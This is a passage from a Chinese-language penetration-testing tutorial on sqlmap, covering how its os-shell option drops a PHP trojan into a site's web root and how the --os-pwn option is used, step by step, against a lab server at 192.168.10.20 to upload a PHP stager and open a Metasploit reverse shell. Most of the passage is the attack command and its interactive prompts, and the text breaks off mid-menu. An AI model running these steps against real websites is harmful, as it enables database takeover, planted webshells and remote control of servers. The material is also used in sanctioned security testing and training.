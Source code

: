 可以看到，其实执行 os-shell 的过程中，sqlmap 向网站根目录写入两个文件 tmpblwkd.php 和 tmpueqch.php。真正的木马文件是 tmpblwkd.php。如果是非正常退出 sqlmap 的话，这两个文件不会被删除。只有当我们输入 x 或 q 退出 sqlmap 时，该文件才会被自动删除。

![](https://p5.ssl.qhimg.com/t015a0aa18a923881ee.png)

![](https://p4.ssl.qhimg.com/t01356b89b90db96323.png)

![](https://p5.ssl.qhimg.com/t01c5976157489fa7a4.png)

![](https://p5.ssl.qhimg.com/t01de1bbab11027a0db.png)

## 反弹一个 MSF 的 shell(—os-pwn)

在数据库为 MySQL、PostgreSql 或者 SQL Server 时，可以执行该选项。并且需要当前获取的权限足够高才可以。

```lua
sqlmap -u "http://192.168.10.20:88/index.php?id=1"  --os-pwn
```

![](https://p5.ssl.qhimg.com/t01b527df2522fbd96c.png)

**选择连接的 tunnel，这里选择默认的 1 就可以了**
[1] TCP: Metasploit Framework (default)
[2] ICMP: icmpsh–ICMP tunneling

> 1

**选择网站的脚本语言，这里根据情况选择**
[1] ASP
[2] ASPX
[3] JSP
[4] PHP (default)

> 4

**选择网站的路径，这里也是根据情况而定，如果知道网站路径的话，可以选择 2 然后手动输入**
[1] common location(s) ('C:/xampp/htdocs/, C:/wamp/www/, C:/Inetpub/wwwroot/') (default)
[2] custom location(s)
[3] custom directory list file
[4] brute force search

> 2
please provide a comma separate list of absolute directory paths: C:\phpstudy\WWW

![](https://p1.ssl.qhimg.com/t01ed3941c4c73cca18.png)

**然后选择连接的类型，这里选择默认的 1 即可**

which connection type do you want to use?

[1] Reverse TCP: Connect back from the database host to this machine (default)

[2] Reverse TCP: Try to connect back from the database host to this machine, on all ports between the specified and 65535

[3] Reverse HTTP: Connect back from the database host to this machine tunnelling traffic over HTTP
